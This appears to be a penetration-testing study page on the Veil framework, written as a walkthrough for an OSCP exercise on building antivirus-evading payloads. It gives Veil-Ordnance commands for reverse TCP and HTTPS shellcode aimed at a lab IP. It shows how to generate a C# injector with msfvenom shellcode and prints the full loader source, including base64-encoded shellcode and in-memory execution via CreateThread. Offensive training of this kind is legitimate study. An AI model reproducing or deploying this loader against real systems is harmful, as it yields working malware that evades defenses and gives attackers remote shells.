









---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Veil

[Veil](https://github.com/Veil-Framework/Veil) is a tool designed to generate Metasploit payloads that bypass common anti-virus solutions.

Veil was originally called Veil-Evasion and thus a lot of documentation around that exists. Veil-Evasion is now rolled into the Veil-Framework and Veil-Ordnance has been added to the Framework as well.

## Veil-Evasion

Veil-Evasion is designed to generate payloads. The shellcode executed by the payload can be supplied by the user or generated using Veil-Ordnance. Veil-Evasion is no longer a standalone tool and is now accessed via the Veil CLI in the `Evasion` section.

### Payload Naming Scheme

To understand the Veil-Evasion payloads it is helpful to understand the naming scheme used by their payloads ([source](https://fortynorthsecurity.com/blog/explaining-veil-payloads-and-invoking-veil-ordnance/)).

<figure><figcaption><p>Veil Evasion Payloads</p></figcaption></figure>

* **Payload Language** (**yellow) -** is relatively self-explanatory, it is the language that the payload is written in. E.g. above payloads `23` and `24` are written in PowerShell.
* **Payload Goal (red) -** the “goal” of the payload
* **Payload Obfuscation (green) -** the level of obfuscation

### Payload Languages

While Veil itself is written in Python, the processed payloads and output files can be in other programming languages. In Veil 3.0, the following are supported:

* AutoIt3
  * Veil 3.0 running on Linux can compile AutoIt3 scripts into Windows executables
* Lua
* Python
* PowerShell
* C
* C#
* Perl
* Ruby
* GoLang

### Payload Goals

There are two categories of payload goals:

1. **Meterpreter**: rather than injecting shellcode into memory and running it, these payloads use the language they are written in to connect back to a Metasploit handler and load Meterpreter, or Cobalt Strike listener and load Beacon.
   * These payloads _do not contain any shellcode_
   * These payloads are _static_ in the sense that they can only be used to load Beacon or Meterpreter, as opposed to loading arbitrary shellcode
2. **Shellcode Inject:** (`shellcode_inject`) payloads designed to load shellcode into memory and execute it
   * Generally, this is used to load Meterpreter or Beacon
   * Payloads give attackers the ability to write their own _custom shellcode and run it_
     * E.g one could use these payloads to automatically create a user account on the system, spawn `calc.exe`, or anything else
   * Attackers can also use [Veil-Ordnance](veil.md#veil-ordnance) or `msfvenom` to generate shellcode with for these payloads&#x20;

#### Sample Payloads

This is often easier to see with an example. A Meterpreter payload (written in Python) appears as follows:

<figure><figcaption><p>Meterpreter payload</p></figcaption></figure>

Whereas a shellcode inject payload uses shellcode and looks like:

<figure><figcaption><p>Shellcode inject payload</p></figcaption></figure>

### Payload Obfuscation

If using a `shellcode_inject` style payload the obfuscation describes what level of obfuscation was used on the payload. The levels can be:

* `flat`: no obfuscation
* `letter_substitution`: letters are swapped out to make valid shellcode
* `*_encrypt`: the shellcode is encrypted using the selected encryption algorithm
* `pidinject`: payload which injects shellcode into another process (similar to Metasploit migrate functionality)
* `stallion`: payload contains encrypted shellcode, but no key in the file. The script brute forces itself to find the key via a known-plaintext attack, decrypts the shellcode, and then executes it

## Veil-Ordnance

[Veil Ordnance](https://github.com/Veil-Framework/Veil-Ordnance) is designed to quickly generate shellcode that can be used for exploits or payloads. All payloads in this tool were ported from the Metasploit Framework. Their payloads were simply ported from Ruby to Python. The basic structure of the command is:

```bash
./Veil-Ordnance.py -p rev_tcp --ip 192.168.63.149 --port 8675
```

Other examples:


```bash
./Veil-Ordnance.py -p rev_https --ip 192.168.63.149 --port 443 -e xor -b \x00\x0a --print-stats
```


* `-e` is used to specify the [encoder](https://github.com/Veil-Framework/Veil/tree/master/tools/ordnance/encoders)
* `-b` lists bad characters (much line with `msfvenom`)
* `--print-stats` prints info about the encoded payload

### Payloads and Encoders

The available payloads and encoders from Veil-Ordnance can be displayed using the `list` command along with the `payloads` or `encoders` argument:

<figure><figcaption></figcaption></figure>


Veil 3.0 users still have the ability to use `msfvenom` to generate their shellcode, but they now **also** have the option to use Ordnance. Ordnance will be able to immediately generate shellcode after users provide the IP and Port that the shellcode should connect to or listen on.

## Example

This example is partially guided by [this Medium article](https://medium.com/@Rad1antC0d3/creating-an-undetectable-payload-using-veil-evasion-toolkit-f1e0cccde667) but is customized to work as a solution for OSCP exercise 14.3.3 Q3.

The ultimate goal for exercise 14.3.3 Q3 is to have a `.bat` file that can be double clicked by a simulated user. This file should either contain the payload or facilitate the download of the payload. The first step will be to create a valid executable that launches a reverse shell. Then that will be translated to a `.bat` file, either by constructing a `.bat` script to download and run the payload (if allowed by antivirus) or one that holds the encoded payload and executes it from within.

#### Installation

Veil is installed with the following command:

```bash
sudo apt install veil -y
```

After installation the setup script must be run:

```bash
sudo /usr/share/veil/config/setup.sh --force --silent
```

* `--force` (optional) if something goes wrong, this will overwrite detecting any previous installs. Useful when there is a setup package update.
* `-- silent` (optional) perform an unattended installation of everything so there is no interaction for the user

This file is responsible for installing all the dependencies of Veil. This includes all the WINE environment, for the Windows side of things. It will install all the necessary Linux packages and GoLang, as well as Python, Ruby and AutoIT for Windows. In addition, it will also run `./config/update-config.py` for your environment.

#### Payload Generation

After installation the CLI can be launched via the `veil` command:

<figure><figcaption><p>Veil CLI</p></figcaption></figure>

This example will use Evasion to generate a payload so that is selected via the `use` command along with the index (`1` in this case):

<figure><figcaption><p>Veil Evasion</p></figcaption></figure>

For this example the C# Shellcode Injection with Base64 obfuscation (12) will be utilized. It is selected with the `use` command and then the options are displayed:

<figure><figcaption></figcaption></figure>

Any options can be set with the command structure:

```
set <OPTION> <VALUE>
```

This is seen above with `set DEBUGGER Y` to have the exploit check if a debugger is attached before proceeding. Once all desired options are set properly the exploit is created with the `generate` command (as shown above).

Once the generation process starts, Veil will ask for the shellcode for insertion into the payload. At this point, previously generated shellcode can be supplied, alternatively Veil-Ordnance or `msfvenom` can be used to generate shellcode in-place and inject it directly into the payload.

In this example, `msfvenom` will be used to generate a Windows reverse shell payload. Veil then requests the `LHOST` and `LPORT` parameters, as well as any optional arguments the user wishes to supply. In this case the `-b` flag was used to indicate bad characters of `\x00` and `\x20` for `msfvenom` (all commands highlighted in green):

<figure><figcaption><p>Shellcode generation</p></figcaption></figure>

After this, the framework immediately compiles the executable and saves it in the `/var/lib/veil/output` directory:

<figure><figcaption><p>Veil compiling the .exe and saving it</p></figcaption></figure>

For illustration purposes the source code generated is shown here:


```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading;
namespace BGVqTwl { class qYfAwoUZUbWkmYm  {
		[DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 XpxZbl,UInt32 kPhvHYlPJaNiNFP, UInt32 qTftEPJyzLyObk, UInt32 RCbkkZ);
[DllImport("kernel32")] public static extern bool VirtualProtect(IntPtr TbJUJyHsZOEC, uint NNNTVbxHuScfYs, uint rzLluePAnLyGEk, out uint tMKSpalMYyc);
[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 ZMBsBpGflScm, UInt32 yFwRXbKlI, IntPtr GXdQnUyeA,IntPtr TovFUCtt, UInt32 QnTfxTIOZ, ref UInt32 rdctcEySrApU);
[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr InAFqXtYGxTn, UInt32 CPbBZCLlZQbR);
static void Main() {
if (!System.Diagnostics.Debugger.IsAttached) {
			string mGFsiGnOHpNjVpw = System.Text.ASCIIEncoding.ASCII.GetString(Convert.FromBase64String("MHhiZiwweDUwLDB4YjMsMHgwZCwweDU5LDB4ZGIsMHhkNiwweGQ5LDB4NzQsMHgyNCwweGY0LDB4NWQsMHgyOSwweGM5LDB4YjEsMHg1MiwweDgzLDB4ZWQsMHhmYywweDMxLDB4N2QsMHgwZSwweDAzLDB4MmQsMHhiZCwweGVmLDB4YWMsMHgzMSwweDI5LDB4NmQsMHg0ZSwweGM5LDB4YWEsMHgxMiwweGM2LDB4MmMsMHg5YiwweDEyLDB4YmMsMHgyNSwweDhjLDB4YTIsMHhiNiwweDZiLDB4MjEsMHg0OCwweDlhLDB4OWYsMHhiMiwweDNjLDB4MzMsMHg5MCwweDczLDB4OGEsMHg2NSwweDlmLDB4ODQsMHhhNywweDU2LDB4YmUsMHgwNiwweGJhLDB4OGEsMHg2MCwweDM2LDB4NzUsMHhkZiwweDYxLDB4N2YsMHg2OCwweDEyLDB4MzMsMHgyOCwweGU2LDB4ODEsMHhhMywweDVkLDB4YjIsMHgxOSwweDQ4LDB4MmQsMHg1MiwweDFhLDB4YWQsMHhlNiwweDU1LDB4MGIsMHg2MCwweDdjLDB4MGMsMHg4YiwweDgzLDB4NTEsMHgyNCwweDgyLDB4OWIsMHhiNiwweDAxLDB4NWMsMHgxMCwweDBjLDB4ZmQsMHg1ZiwweGYwLDB4NWMsMHhmZSwweGNjLDB4M2QsMHg1MSwweDBkLDB4MGMsMHg3YSwweDU2LDB4ZWUsMHg3YiwweDcyLDB4YTQsMHg5MywweDdiLDB4NDEsMHhkNiwweDRmLDB4MDksMHg1MSwweDcwLDB4MWIsMHhhOSwweGJkLDB4ODAsMHhjOCwweDJjLDB4MzYsMHg4ZSwweGE1LDB4M2IsMHgxMCwweDkzLDB4MzgsMHhlZiwweDJiLDB4YWYsMHhiMSwweDBlLDB4ZmIsMHgzOSwweDgxLDB4MzQsMHhkZiwweDYyLDB4NTEsMHg1NCwweDQ2LDB4Y2YsMHgzNCwweDY5LDB4OTgsMHhiMCwweGU5LDB4Y2YsMHhkMywweDVkLDB4ZmQsMHg3ZCwweGJlLDB4MDksMHgzMiwweDRjLDB4NDAsMHhjYSwweDVjLDB4YzcsMHgzMywweGY4LDB4YzMsMHg3MywweGRiLDB4YjAsMHg4YywweDVkLDB4MWMsMHhiNiwweGE2LDB4MWEsMHhiMiwweDQ5LDB4NDksMHg1YiwweDliLDB4OGQsMHgxZCwweDBiLDB4YjMsMHgyNCwweDFlLDB4YzAsMHg0MywweGM4LDB4Y2IsMHg0NywweDEzLDB4NjYsMHhhNCwweDI3LDB4YzMsMHhjNiwweDE0LDB4YzAsMHgwOSwweGM5LDB4NGIsMHhmMCwweDMyLDB4MDMsMHhlNCwweDliLDB4YzksMHhjNCwweGNiLDB4ZjQsMHhmYywweDhiLDB4YTQsMHgwNiwweGZlLDB4YjIsMHg4ZiwweDhlLDB4MTgsMHhkZSwweGZmLDB4YzYsMHhiMywweDc3LDB4OTksMHg0MiwweDRmLDB4ZTksMHg2NiwweDU5LDB4MmEsMHgyOSwweGVjLDB4NmUsMHhjYiwweGU0LDB4MDUsMHgxYSwweGRmLDB4OTEsMHhlNSwweDUxLDB4YmQsMHgzNCwweGY5LDB4NGYsMHhhOSwweGRiLDB4NjgsMHgxNCwweDI5LDB4OTUsMHg5MCwweDgzLDB4N2UsMHhmMiwweDY3LDB4ZGEsMHhlYSwweGVlLDB4ZGUsMHg3NCwweDA4LDB4ZjMsMHg4NywweGJmLDB4ODgsMHgyOCwweDc0LDB4NDEsMHgxMSwweGJjLDB4YzAsMHg2NSwweDAxLDB4NzgsMHhjOCwweDIxLDB4NzUsMHhkNCwweDlmLDB4ZmYsMHgyMywweDkyLDB4NDksMHg0ZSwweDlkLDB4NGMsMHgyNSwweDE4LDB4NDksMHgwOCwweDA1LDB4OWIsMHgwZiwweDE1LDB4NDAsMHg2ZCwweGVmLDB4YTQsMHgzZCwweDI4LDB4MTAsMHgwOCwweGFhLDB4YmMsMHg2OSwweDc0LDB4NGEsMHg0MiwweGEwLDB4M2MsMHg3YSwweDA5LDB4ZTgsMHgxNSwweDEzLDB4ZDQsMHg3OSwweDI0LDB4N2UsMHhlNywweDU0LDB4NmIsMHg4NywweDY0LDB4NWMsMHgxNCwweDdjLDB4NzQsMHgxNSwweDExLDB4MzgsMHgzMiwweGM2LDB4NmIsMHg1MSwweGQ3LDB4ZTgsMHhkOCwweDUyLDB4ZjI="));
			string[] chars = mGFsiGnOHpNjVpw.Split(',').ToArray();
			byte[] nXMMuOQVWptSJxp = new byte[chars.Length];n
			for (int i = 0; i < chars.Length; ++i) { nXMMuOQVWptSJxp[i] = Convert.ToByte(chars[i], 16); }
			IntPtr RCGoqhQDABeOS = VirtualAlloc(0, (UInt32)nXMMuOQVWptSJxp.Length, 0x3000, 0x04);
			Marshal.Copy(nXMMuOQVWptSJxp, 0, (IntPtr)(RCGoqhQDABeOS), nXMMuOQVWptSJxp.Length);
			IntPtr fLAoJEgA = IntPtr.Zero; UInt32 eHOYGTgxFYC = 0; IntPtr zyDFBmDcjVpHaRc = IntPtr.Zero;
			uint DVIWcgjGhhLVr;
			bool ulOshzhP = VirtualProtect(RCGoqhQDABeOS, (uint)0x1000, (uint)0x20, out DVIWcgjGhhLVr);
			fLAoJEgA = CreateThread(0, 0, RCGoqhQDABeOS, zyDFBmDcjVpHaRc, 0, ref eHOYGTgxFYC);
			WaitForSingleObject(fLAoJEgA, 0xFFFFFFFF);}
			}		}	}
```


* The generated shellcode is Base64 encoded on line 9

From here the `.exe` can be tested on a victim machine.
